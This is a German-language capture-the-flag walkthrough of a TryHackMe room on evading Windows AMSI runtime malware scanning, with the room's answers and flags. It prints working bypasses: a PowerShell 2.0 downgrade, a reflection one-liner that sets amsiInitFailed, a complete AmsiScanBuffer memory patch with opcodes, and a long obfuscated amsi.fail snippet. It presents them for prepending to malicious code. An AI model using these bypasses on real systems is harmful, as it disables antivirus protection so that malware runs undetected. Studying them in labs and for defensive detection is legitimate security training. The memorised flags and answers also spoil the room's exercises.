


# Task 1 - Einführung
Mit der Veröffentlichung von PowerShell <3 durch das Blue Team hat Microsoft AMSI (Anti-Malware Scan Interface) eingeführt, eine Laufzeitüberwachungslösung, die entwickelt wurde, um Bedrohungen zu erkennen und zu überwachen.

Lernziele

- Verstehen des Zwecks von Laufzeit-Erkennungen und wie sie implementiert werden.
- Erlernen und Anwenden von Techniken zur Umgehung von AMSI.
- Verständnis für gängige Abwehrmaßnahmen und potenzielle Alternativen zu Techniken.

Laufzeit-Erkennungsmaßnahmen können viele Kopfschmerzen und Hindernisse verursachen, wenn es darum geht, bösartigen Code auszuführen. Glücklicherweise gibt es für uns Angreifer mehrere Techniken und Methoden, die wir nutzen können, um gängige Laufzeit-Erkennungslösungen zu umgehen.

In diesem Raum wird Forschung von mehreren Autoren und Forschern verwendet; alle Credits gehen an die jeweiligen Eigentümer.

Bevor Sie diesen Raum beginnen, machen Sie sich mit der Betriebssystemarchitektur im Allgemeinen vertraut. Grundlegende Programmierkenntnisse in C# und PowerShell sind ebenfalls empfohlen, aber nicht zwingend erforderlich.

Wir haben eine grundlegende Windows-Maschine bereitgestellt, die die für diesen Raum benötigten Dateien enthält. Sie können auf die Maschine im Browser oder über RDP mit den folgenden Anmeldeinformationen zugreifen:

Maschinen-IP: `MACHINE_IP`             Benutzername: `THM-Attacker`             Passwort: `Tryhackme!`

# Task 2 - Laufzeiterkennung
Bei der Ausführung von Code oder Anwendungen wird fast immer eine Laufzeitumgebung durchlaufen, unabhängig vom Interpreter. Dies ist besonders häufig beim Einsatz von Windows-API-Aufrufen und der Interaktion mit .NET zu beobachten. Die [CLR (**C**ommon **L**anguage **R**untime)](https://learn.microsoft.com/en-us/dotnet/standard/clr) und [DLR (**D**ynamic **L**anguage **R**untime)](https://learn.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/dynamic-language-runtime-overview) sind die Laufzeiten für .NET und die gängigsten, denen man bei der Arbeit mit Windows-Systemen begegnet. In dieser Aufgabe werden wir nicht auf die Details der Laufzeiten eingehen; stattdessen diskutieren wir, wie sie überwacht werden und wie bösartiger Code erkannt wird.

Eine Laufzeit-Erkennungsmaßnahme scannt den Code vor der Ausführung in der Laufzeit und entscheidet, ob er bösartig ist oder nicht. Abhängig von der Erkennungsmaßnahme und der zugrunde liegenden Technologie kann diese Erkennung auf String-Signaturen, Heuristiken oder Verhaltensweisen basieren. Wenn Code als verdächtig eingestuft wird, wird ihm ein Wert zugewiesen, und wenn dieser innerhalb eines festgelegten Bereichs liegt, wird die Ausführung gestoppt und möglicherweise die Datei oder der Code in Quarantäne versetzt oder gelöscht.

Laufzeit-Erkennungsmaßnahmen unterscheiden sich von einem herkömmlichen Antivirenprogramm, da sie direkt aus dem Speicher und der Laufzeit heraus scannen. Gleichzeitig können Antivirenprodukte ebenfalls solche Laufzeit-Erkennungen nutzen, um mehr Einblick in die Aufrufe und Hooks zu erhalten, die vom Code ausgehen. In einigen Fällen verwenden Antivirenprodukte einen Laufzeit-Erkennungsstrom als Teil ihrer Heuristiken.

In diesem Raum konzentrieren wir uns hauptsächlich auf [AMSI (**A**nti-**M**alware **S**can **I**nterface)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal). AMSI ist eine nativ mit Windows ausgelieferte Laufzeit-Erkennungsmaßnahme und stellt eine Schnittstelle für andere Produkte und Lösungen dar.

## Fragen:
Lesen Sie den obigen Text und beantworten Sie die folgende Frage.
```
Keine Antwort nötig
```

Welche Laufzeiterkennungsmaßnahme ist im Lieferumfang von Windows enthalten?
```
AMSI
```

# Task 3 - AMSI Überblick
AMSI (Anti-Malware Scan Interface) ist eine Sicherheitsfunktion von PowerShell, die es Anwendungen und Diensten ermöglicht, sich direkt in Antivirenprodukte zu integrieren. Defender verwendet AMSI, um Payloads und Skripte vor der Ausführung innerhalb der .NET-Laufzeitumgebung zu scannen. Gemäß Microsoft: "Die Windows Antimalware Scan Interface (AMSI) ist ein vielseitiger Standardschnittstellenstandard, der es Ihren Anwendungen und Diensten ermöglicht, sich mit jedem auf einer Maschine vorhandenen Antivirenprodukt zu integrieren. AMSI bietet verbesserten Schutz vor Malware für Ihre Endbenutzer, deren Daten, Anwendungen und Workloads."

Für weitere Informationen zu AMSI können Sie die [Windows-Dokumentation](https://learn.microsoft.com/en-us/windows/win32/AMSI/antimalware-scan-interface-portal) konsultieren.

AMSI trifft seine Maßnahmen basierend auf einem Antwortcode, der als Ergebnis der Überwachung und des Scannens ermittelt wird. Unten finden Sie eine Liste möglicher Antwortcodes:

- AMSI_RESULT_CLEAN = 0
- AMSI_RESULT_NOT_DETECTED = 1
- AMSI_RESULT_BLOCKED_BY_ADMIN_START = 16384
- AMSI_RESULT_BLOCKED_BY_ADMIN_END = 20479
- AMSI_RESULT_DETECTED = 32768

Diese Antwortcodes werden nur auf der Backend-Seite von AMSI oder durch Implementierungen von Drittanbietern gemeldet. Wenn AMSI ein bösartiges Ergebnis erkennt, stoppt es die Ausführung und sendet die unten stehende Fehlermeldung.
```powershell
PS C:Users\Tryhackme> 'Invoke-Hacks'
At line:1 char:1
+ "Invoke-Hacks"
+ ~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.
		+ CategoryInfo          : ParserError: (:) []. ParentContainsErrorRecordException
		+ FullyQualifiedErrorId : ScriptContainedMaliciousContent
```

AMSI ist vollständig in die folgenden Windows-Komponenten integriert:

- Benutzerkontensteuerung oder UAC
- PowerShell
- Windows Script Host (wscript und cscript)
- JavaScript und VBScript
- Office VBA-Makros

Als Angreifer müssen wir beim Anvisieren der oben genannten Komponenten auf AMSI und dessen Implementierungen achten, wenn wir Code ausführen oder Komponenten missbrauchen.

In der nächsten Aufgabe werden wir die technischen Details erläutern, wie AMSI funktioniert und in Windows instrumentiert ist.

## Fragen:
Lesen Sie den obigen Text und beantworten Sie die folgende Frage.
```
Kein Antwort nötig
```

Welcher Antwortwert ist `32768` zugewiesen?
```
AMSI_RESULT_DETECTED
```

# Task 4 - AMSI Instrumentierung
Die Art und Weise, wie AMSI instrumentiert wird, kann komplex sein und umfasst mehrere DLLs sowie unterschiedliche Ausführungsstrategien, je nachdem, wo es instrumentiert ist. AMSI ist per Definition lediglich eine Schnittstelle für andere Antivirenprodukte. AMSI verwendet mehrere Anbieter-DLLs und API-Aufrufe, je nachdem, was ausgeführt wird und auf welcher Ebene es ausgeführt wird.

AMSI wird aus der Datei `System.Management.Automation.dll` instrumentiert, einem von Windows entwickelten .NET-Assembly. Gemäß den Microsoft-Dokumenten: "Assemblies bilden die grundlegenden Einheiten für Bereitstellung, Versionskontrolle, Wiederverwendung, Aktivierungsbereich und Sicherheitsberechtigungen für .NET-basierte Anwendungen." Das .NET-Assembly wird je nach Interpreter und ob es sich auf der Festplatte oder im Speicher befindet, andere DLLs und API-Aufrufe instrumentieren. Das folgende Diagramm zeigt, wie Daten durch die Schichten fließen und welche DLLs/API-Aufrufe dabei instrumentiert werden.  


Im obigen Diagramm beginnen die Daten abhängig vom verwendeten Interpreter (PowerShell/VBScript usw.) zu fließen. Verschiedene API-Aufrufe und Schnittstellen werden instrumentiert, während die Daten durch das Modell auf jeder Ebene fließen. Es ist wichtig, das gesamte Modell von AMSI zu verstehen, aber wir können es in Kernkomponenten aufteilen, die im folgenden Diagramm dargestellt sind.  


Hinweis: AMSI wird nur dann instrumentiert, wenn es aus dem Speicher geladen wird, wenn es aus dem CLR (Common Language Runtime) ausgeführt wird. Es wird davon ausgegangen, dass, wenn es sich auf der Festplatte befindet, MsMpEng.exe (Windows Defender) bereits instrumentiert wird.

Die meisten unserer Forschungen und bekannten Umgehungen sind in der Win32 API-Ebene platziert, indem der [AmsiScanBuffer](https://learn.microsoft.com/en-us/windows/win32/api/amsi/nf-amsi-amsiscanbuffer) API-Aufruf manipuliert wird.

Sie können auch die "Other Applications" -Schnittstelle von AMSI bemerken. Drittanbieter wie AV-Anbieter können AMSI aus ihren Produkten heraus instrumentieren. Microsoft dokumentiert [AMSI-Funktionen](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-functions) und die [AMSI-Stream-Schnittstelle](https://learn.microsoft.com/en-us/windows/win32/api/amsi/nn-amsi-iamsistream).
##
Wir können den Code für die AMSI PowerShell-Instrumentierung aufschlüsseln, um besser zu verstehen, wie er implementiert ist und nach verdächtigen Inhalten prüft. Um herauszufinden, wo AMSI instrumentiert ist, können wir InsecurePowerShell verwenden, das von [Cobbr](https://github.com/cobbr) gepflegt wird. [InsecurePowerShell](https://github.com/PowerShell/PowerShell/compare/master...cobbr:master) ist eine GitHub-Fork von PowerShell, bei dem Sicherheitsfunktionen entfernt wurden. Das bedeutet, dass wir die verglichenen Commits durchsehen und etwaige Sicherheitsfunktionen beobachten können. AMSI wird nur in zwölf Codezeilen unter `src/System.Management.Automation/engine/runtime/CompiledScriptBlock.cs` instrumentiert. Diese zwölf Zeilen sind unten aufgeführt.
```powershell
var scriptExtent = scriptBlockAst.Extent;
 if (AmsiUtils.ScanContent(scriptExtent.Text, scriptExtent.File) == AmsiUtils.AmsiNativeMethods.AMSI_RESULT.AMSI_RESULT_DETECTED)
 {
  var parseError = new ParseError(scriptExtent, "ScriptContainedMaliciousContent", ParserStrings.ScriptContainedMaliciousContent);
  throw new ParseException(new[] { parseError });
 }

 if (ScriptBlock.CheckSuspiciousContent(scriptBlockAst) != null)
 {
  HasSuspiciousContent = true;
 }
```

Mit unserem Wissen darüber, wie AMSI instrumentiert wird, und Forschungsergebnissen anderer können wir Umgehungen erstellen und nutzen, die AMSI oder seine Dienstprogramme missbrauchen und umgehen.


## Fragen:
Lesen Sie den obigen Text und beantworten Sie die folgende Frage.
```
Keine Antwort nötig
```

Wird AMSI instrumentiert, wenn sich die Datei nur auf der Festplatte befindet? (Y/N)
```
N
```

# Task 5 - Powershell Downgrade
Der PowerShell Downgrade-Angriff ist eine sehr einfache Methode, mit der Angreifer die aktuelle PowerShell-Version modifizieren können, um Sicherheitsfunktionen zu entfernen.

Die meisten PowerShell-Sitzungen starten mit der neuesten PowerShell-Engine, aber Angreifer können manuell die Version mit einem Einzeiler ändern. Durch "Herabstufen" der PowerShell-Version auf 2.0 umgehen Sie Sicherheitsfunktionen, da diese erst ab Version 5.0 implementiert wurden.

Für den Angriff genügt ein Einzeiler, der in unserer Sitzung ausgeführt wird. Wir können einen neuen PowerShell-Prozess mit den Flags `-Version` starten, um die Version anzugeben (2).
```powershell
PowerShell -Version 2
```

Dieser Angriff wird aktiv in Tools wie [Unicorn](https://github.com/trustedsec/unicorn) ausgenutzt.
```powershell
full_attack = '''powershell /w 1 /C "sv {0} -;sv {1} ec;sv {2} ((gv {3}).value.toString()+(gv {4}).value.toString());powershell (gv {5}).value.toString() (\\''''.format(ran1, ran2, ran3, ran1, ran2, ran3) + haha_av + ")" + '"'
```

Da dieser Angriff so einfach und grundlegend ist, gibt es zahlreiche Möglichkeiten für das Blue Team, diesen zu erkennen und zu verhindern.

Die beiden einfachsten Maßnahmen zur Abwehr sind das Entfernen der PowerShell 2.0-Engine vom Gerät und das Verweigern des Zugriffs auf PowerShell 2.0 über die Anwendungsblockierung.

## Fragen:
Lesen Sie den obigen Text und üben Sie das Herabstufen von PowerShell auf der bereitgestellten Maschine.
```
Keine Antwort nötig
```

Geben Sie die Flagge ein, die Sie vom Desktop erhalten, nachdem Sie den Befehl in cmd.exe ausgeführt haben.
```
THM{p0w3r5h3ll_d0wn6r4d3!}
```

# Task 6 - Powershell Reflektion
Reflexion ermöglicht es einem Benutzer oder Administrator, auf .NET-Assemblys zuzugreifen und mit ihnen zu interagieren. Laut den Microsoft-Dokumenten "bilden Assemblys die grundlegenden Einheiten für Bereitstellung, Versionskontrolle, Wiederverwendung, Aktivierungsumgebung und Sicherheitsberechtigungen für .NET-basierte Anwendungen". .NET-Assemblys mögen fremd erscheinen, aber wir können sie besser verstehen, indem wir wissen, dass sie in vertrauten Formaten wie exe (ausführbare Datei) und dll (Dynamik-Link-Bibliothek) vorliegen.

PowerShell Reflexion kann missbraucht werden, um Informationen aus wertvollen DLLs zu ändern und zu identifizieren.

Die AMSI-Dienstprogramme für PowerShell sind in der `AMSIUtils` .NET-Assembly gespeichert, die sich in `System.Management.Automation.AmsiUtils` befindet.

Matt Graeber veröffentlichte einen Einzeiler, um das Ziel zu erreichen, die AMSI-Dienstprogramme mittels Reflexion zu modifizieren und zu umgehen. Dieser Einzeiler ist im folgenden Codeblock zu sehen.
```cs
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Um die Funktionalität des Codes zu erklären, werden wir ihn in kleinere Abschnitte aufteilen.

Zuerst wird der Ausschnitt die Reflexionsfunktion aufrufen und angeben, dass es eine Assembly von `[Ref.Assembly]` verwenden möchte, um dann den Typ des AMSI-Dienstprogramms mit `GetType` zu erhalten.
```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils')
```

Die aus dem vorherigen Abschnitt gesammelten Informationen werden an die nächste Funktion weitergeleitet, um ein bestimmtes Feld innerhalb der Assembly mit `GetField` zu erhalten.
```powershell
.GetField('amsiInitFailed','NonPublic,Static')
```

Die Assembly- und Feldinformationen werden dann an den nächsten Parameter weitergeleitet, um den Wert von `$false` auf `$true` mit `SetValue` zu setzen.
```powershell
.SetValue($null,$true)
```

Sobald das Feld `amsiInitFailed` auf `$true` gesetzt ist, wird AMSI mit dem Antwortcode reagieren: AMSI_RESULT_NOT_DETECTED = 1

## Fragen:
Lesen Sie den obigen Text und üben Sie die Nutzung des Einzeilers auf der bereitgestellten Maschine.
Um den Einzeiler zu verwenden, können Sie ihn in derselben Sitzung wie den gewünschten bösartigen Code ausführen oder ihn dem bösartigen Code voranstellen.
```
Keine Antwort nötig
```

Geben Sie die Flagge ein, die Sie vom Desktop erhalten, nachdem Sie den Befehl ausgeführt haben.
```
THM{r3fl3c7_4ll_7h3_7h1n65}
```

# Task 7 - AMSI-Patching
AMSI wird hauptsächlich durch die Datei `amsi.dll` instrumentiert und geladen; dies konnte aus dem Diagramm bestätigt werden, das wir zuvor betrachtet haben. Diese DLL kann missbraucht werden, um auf einen gewünschten Antwortcode umzuleiten. Die Funktion `AmsiScanBuffer` bietet uns die Haken und die Funktionalität, die wir benötigen, um auf den Zeiger/Buffer für den Antwortcode zuzugreifen.

`AmsiScanBuffer` ist verwundbar, weil `amsi.dll` beim Start in den PowerShell-Prozess geladen wird; unsere Sitzung hat das gleiche Berechtigungsniveau wie das Dienstprogramm.

`AmsiScanBuffer` wird einen "[Buffer](https://en.wikipedia.org/wiki/Data_buffer)" verdächtigen Codes scannen und ihn an `amsi.dll` melden, um die Antwort zu bestimmen. Wir können diese Funktion steuern und den Buffer mit einem sauberen Rückgabecode überschreiben. Um den benötigten Buffer für den Rückgabecode zu identifizieren, müssen wir etwas Reverse Engineering durchführen; glücklicherweise wurde diese Forschung und Reverse Engineering bereits durchgeführt. Wir haben den genauen Rückgabecode, den wir benötigen, um eine saubere Antwort zu erhalten!

Wir werden einen Codeausschnitt zerlegen, der von BC-Security modifiziert und von Tal Liberman inspiriert wurde; den Originalcode finden Sie [hier](https://github.com/BC-SECURITY/Empire/tree/main). RastaMouse hat ebenfalls einen ähnlichen Bypass in C# geschrieben, der die gleiche Technik verwendet; den Code finden Sie [hier](https://github.com/rasta-mouse/AmsiScanBufferBypass).

Auf hoher Ebene kann die AMSI-Patching in vier Schritte unterteilt werden:

1. Den Handle von `amsi.dll` erhalten
2. Die Prozessadresse von `AmsiScanBuffer` abrufen
3. Die Speicherschutzmaßnahmen von `AmsiScanBuffer` ändern
4. Opcodes in `AmsiScanBuffer` schreiben

Zunächst müssen wir externe Bibliotheken oder API-Aufrufe laden, die wir verwenden möchten; wir werden [GetProcAddress](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getprocaddress), [GetModuleHandle](https://learn.microsoft.com/en-us/windows/win32/api/libloaderapi/nf-libloaderapi-getmodulehandlea) und [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) von **kernel32** mit [P/Invoke](https://learn.microsoft.com/en-us/dotnet/standard/native-interop/pinvoke) laden.
```cs
[DllImport(`"kernel32`")] // Import DLL where API call is stored
public static extern IntPtr GetProcAddress( // API Call to import
	IntPtr hModule, // Handle to DLL module
	string procName // function or variable to obtain
);

[DllImport(`"kernel32`")]
public static extern IntPtr GetModuleHandle(
	string lpModuleName // Module to obtain handle
);

[DllImport(`"kernel32`")]
public static extern bool VirtualProtect(
	IntPtr lpAddress, // Address of region to modify
	UIntPtr dwSize, // Size of region
	uint flNewProtect, // Memory protection options
	out uint lpflOldProtect // Pointer to store previous protection options
); 
```

Die Funktionen sind jetzt definiert, aber wir müssen die API-Aufrufe mit `Add-Type` laden. Dieses Cmdlet lädt die Funktionen mit einem geeigneten Typ und Namespace, die es ermöglichen, die Funktionen aufzurufen.
```cs
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
```

Nun, da wir unsere API-Funktionen aufrufen können, können wir identifizieren, wo sich `amsi.dll` befindet und wie wir zur Funktion gelangen können. Zuerst müssen wir den Prozesshandle von AMSI mit `GetModuleHandle` identifizieren. Der Handle wird dann verwendet, um die Prozessadresse von `AmsiScanBuffer` mit `GetProcAddress` zu identifizieren.
```cs
$handle = [Win32.Kernel32]::GetModuleHandle(
	'amsi.dll' // Obtains handle to amsi.dll
);
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress(
	$handle, // Handle of amsi.dll
	'AmsiScanBuffer' // API call to obtain
); 
```

Als Nächstes müssen wir den Speicherschutz der `AmsiScanBuffer` Prozessregion ändern. Wir können Parameter und die Bufferadresse für `VirtualProtect` angeben.

Informationen zu den Parametern und ihren Werten finden Sie in der zuvor genannten API-Dokumentation.
```cs
[UInt32]$Size = 0x5; // Size of region
[UInt32]$ProtectFlag = 0x40; // PAGE_EXECUTE_READWRITE
[UInt32]$OldProtectFlag = 0; // Arbitrary value to store options
[Win32.Kernel32]::VirtualProtect(
	$BufferAddress, // Point to AmsiScanBuffer
	$Size, // Size of region
	$ProtectFlag, // Enables R or RW access to region
	[Ref]$OldProtectFlag // Pointer to store old options
); 
```

Wir müssen angeben, was wir in den Buffer überschreiben möchten; der Prozess, um diesen Buffer zu identifizieren, kann [hier](https://rastamouse.me/memory-patching-amsi-bypass/) gefunden werden. Sobald der Buffer festgelegt ist, können wir [Marshal.Copy](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.interopservices.marshal.copy?view=net-6.0) verwenden, um in den Prozess zu schreiben.
```cs
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy(
	$buf, // Opcodes/array to write
	0, // Where to start copying in source array 
	$BufferAddress, // Where to write (AsmiScanBuffer)
	6 // Number of elements/opcodes to write
); 
```

An diesem Punkt sollten wir einen funktionierenden AMSI-Bypass haben! Es sollte beachtet werden, dass die meisten Tools Signaturen und Erkennungen entwickelt haben, um dieses Skript zu erkennen.

## Fragen:
Beantworten Sie die folgenden Fragen nach dem Lesen und Ausführen des Skripts auf der bereitgestellten Maschine.
```
Keine Antwort nötig
```

Geben Sie die Flagge ein, die auf dem Desktop nach Ausführung des Befehls erhalten wurde.
```
THM{p47ch1n6_15n7_ju57_f0r_7h3_600d_6uy5}
```

# Task 8 - Automatisieren für Spaß und Profit
Während es bevorzugt wird, die zuvor gezeigten Methoden in diesem Raum zu verwenden, können Angreifer andere automatisierte Tools nutzen, um AMSI-Signaturen zu umgehen oder einen Bypass zu kompilieren.

Das erste Automatisierungstool, das wir uns ansehen werden, ist [amsi.fail](https://amsi.fail/).

[amsi.fail](https://amsi.fail/) wird PowerShell-Bypässe aus einer Sammlung bekannter Umgehungen kompilieren und generieren. Laut amsi.fail generiert das Tool "obfuszierte PowerShell-Schnipsel, die AMSI für den aktuellen Prozess brechen oder deaktivieren. Die Schnipsel werden zufällig aus einer kleinen Auswahl von Techniken/Variationen ausgewählt, bevor sie obfusziert werden. Jeder Schnipsel wird zur Laufzeit/Anfrage obfusziert, so dass kein generierter Ausgang dieselben Signaturen teilt."

Nachfolgend ein Beispiel eines obfuszierten PowerShell-Schnipsels von amsi.fail:
```powershell
$d=$null;$qcgcjblv=[$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).Runtime.InteropServices.Marshal]::AllocHGlobal((9076+7561-7561));$pkgzwpahfwntq="+('lwbj'+'cymh').NORmaliZe([CHar]([byTe]0x46)+[char](111)+[ChAR]([ByTE]0x72)+[chaR](109*73/73)+[ChAR]([ByTE]0x44)) -replace [char]([bytE]0x5c)+[Char](112*106/106)+[char]([bYte]0x7b)+[chAR]([BYtE]0x4d)+[CHAR](110+8-8)+[CHAr]([BytE]0x7d)";[Threading.Thread]::Sleep(1595);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$(('àmsí'+'Sess'+'íón').norMALiZE([CHaR](70*49/49)+[chAr](87+24)+[ChaR]([bytE]0x72)+[chAr](109)+[chAR](68+43-43)) -replace [CHAr](92)+[chAr]([byTe]0x70)+[CHAr]([bYTE]0x7b)+[cHAr](77*71/71)+[CHar]([bYtE]0x6e)+[char](125+49-49))", "NonPublic,Static").SetValue($d, $null);[Ref].Assembly.GetType("$(('Sys'+'tem').NoRMALizE([CHar](70*66/66)+[CHaR](77+34)+[cHaR]([bYTe]0x72)+[ChAR]([bYtE]0x6d)+[chaR](68*10/10)) -replace [cHAR](92)+[char]([ByTE]0x70)+[cHar]([bYtE]0x7b)+[Char](69+8)+[ChAr]([bYTE]0x6e)+[ChaR]([BYtE]0x7d)).$(('Mãnâge'+'ment').NOrMalIzE([ChaR](70)+[chAR](111*105/105)+[cHAR](114+29-29)+[chaR]([bYtE]0x6d)+[CHAR](22+46)) -replace [cHar]([BytE]0x5c)+[CHar](112*11/11)+[chAR](123+34-34)+[CHAR](77*13/13)+[cHaR]([bYTe]0x6e)+[cHAR]([bYte]0x7d)).$(('Àutõmâtî'+'ôn').NoRMAlIZe([CHar]([bYTE]0x46)+[Char]([byte]0x6f)+[cHAR]([BYtE]0x72)+[cHAR](109+105-105)+[ChAr](68*28/28)) -replace [chAR]([BytE]0x5c)+[cHAr]([BYTE]0x70)+[CHAR]([BytE]0x7b)+[char]([byte]0x4d)+[CHaR]([BYte]0x6e)+[chaR](125+23-23)).$([CHAR]([ByTe]0x41)+[CHAr]([bYtE]0x6d)+[chaR](115*46/46)+[cHar]([BYTe]0x69)+[cHaR](85)+[CHAr](116)+[chAr](105*44/44)+[cHAr](108*64/64)+[chAr]([BYte]0x73))").GetField("$([chAR]([byTe]0x61)+[Char](109+52-52)+[cHar](46+69)+[CHar]([byTe]0x69)+[CHAR]([BYTe]0x43)+[Char]([ByTe]0x6f)+[chAR](110)+[chaR](116*47/47)+[cHar](101)+[CHAR]([bYte]0x78)+[CHaR]([ByTE]0x74))", "NonPublic,Static").SetValue($null, [IntPtr]$qcgcjblv);
```

Diesen Bypass können Sie wie die vorherigen Bypässe am Anfang Ihres bösartigen Codes anfügen oder in derselben Sitzung ausführen, bevor Sie den bösartigen Code starten.
##
[AMSITrigger](https://github.com/RythmStick/AMSITrigger) ermöglicht es Angreifern, automatisch Zeichenfolgen zu identifizieren, die Signaturen markieren, um sie zu modifizieren und zu umgehen. Diese Methode zur Umgehung von AMSI ist konsistenter als andere, da Sie die Datei selbst sauber machen.

Die Syntax für die Verwendung von AMSITrigger ist relativ einfach; Sie müssen die Datei oder URL sowie das Format angeben, in dem die Datei gescannt werden soll. Nachfolgend ein Beispiel für die Verwendung von AMSITrigger:
```cmd
C:\Users\Tryhackme\Tools>AmsiTrigger_x64.exe -i "bypass.ps1" -f 3
$MethodDefinition = "

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport(`"kernel32`")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport(`"kernel32`")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
";

$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
$handle = [Win32.Kernel32]::GetModuleHandle('amsi.dll');
[IntPtr]$BufferAddress = [Win32.Kernel32]::GetProcAddress($handle, 'AmsiScanBuffer');
[UInt32]$Size = 0x5;
[UInt32]$ProtectFlag = 0x40;
[UInt32]$OldProtectFlag = 0;
[Win32.Kernel32]::VirtualProtect($BufferAddress, $Size, $ProtectFlag, [Ref]$OldProtectFlag);
$buf = [Byte[]]([UInt32]0xB8,[UInt32]0x57, [UInt32]0x00, [Uint32]0x07, [Uint32]0x80, [Uint32]0xC3);

[system.runtime.interopservices.marshal]::copy($buf, 0, $BufferAddress, 6);
```

Signaturen sind rot markiert; Sie können diese Signaturen durch Codierung, Obfuskation usw. brechen.

## Fragen:
Beantworten Sie die folgenden Fragen nach dem Lesen und fahren Sie mit der nächsten Aufgabe fort.
```

```

# Task 9 - Abschluss
Laufzeitdetektionen und AMSI sind nur eine von vielen Erkennungs- und Abwehrmaßnahmen, auf die Sie stoßen können, wenn Sie Techniken gegen ein gehärtetes oder aktuelles Gerät einsetzen.

Diese Umgehungen können allein oder in Kombination mit anderen Exploits und Techniken verwendet werden, um letztlich alle Dinge zu umgehen.

Es ist wichtig, diese Werkzeuge aus diesem Raum in Ihrem Hinterkopf zu behalten. Sie können sich nicht ausschließlich auf sie verlassen, um Erkennungen zu umgehen, aber Sie können viele Erkennungen umgehen und abschrecken, indem Sie die besprochenen Techniken anwenden.
